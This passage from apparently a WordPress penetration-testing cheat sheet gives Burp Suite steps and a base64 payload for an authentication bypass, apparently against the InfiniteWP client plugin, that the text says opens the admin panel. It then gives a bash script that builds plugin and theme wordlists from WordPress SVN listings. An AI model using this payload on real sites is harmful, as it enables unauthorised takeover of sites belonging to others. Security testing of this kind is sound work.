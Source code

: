 - Refresh the WordPress site and intercept the request using Burp Suite.
- Append the base64-generated payload (that you got from the above steps) with the provided string found in the exploit URL like this:
Payload :

```jsx
_IWP_JSON_PREFIX_eyJpd3BfYWN0aW9uIjoiYWRkX3NpdGUiLCJwYXJhbXMiOnsidXNlcm5hbWUiOiJhZG1pbiJ9fQo=
```

![Untitled](Untitled%201.webp)

- Right-click on Burp suite, and click on the “Change request method” to convert the request from **GET to POST**.

then forward request, you should able to view admin panel.

---

# Enumerate All Plugins and Themes

The code provided is a shell script for generating a wordlist of all the available WordPress themes and plugins. It uses the `wp-wordlist` function, which takes an argument (`plugin` or `theme`) to specify whether to generate a wordlist for plugins or themes.

Here is the code:

```bash
wp-wordlist()
{
option="$1"
if [[ "$option" == *"plugin"* ]]; then
curl -s <https://plugins.svn.wordpress.org/> | tail -n +5 | sed -e 's/<[^>]*>//g' -e 's/\\///' -e 's/ \\+//gp' | grep -v "Powered by Apache" | sort -u
elif [[ "$option" == "theme" ]]; then
curl -s <https://themes.svn.wordpress.org/> | tail -n +5 | sed -e 's/<[^>]*>//g' -e 's/\\///' -e 's/ \\+//gp' | grep -v "Powered by Apache" | sort -u
fi
}

wp-wordlist "$1"

```
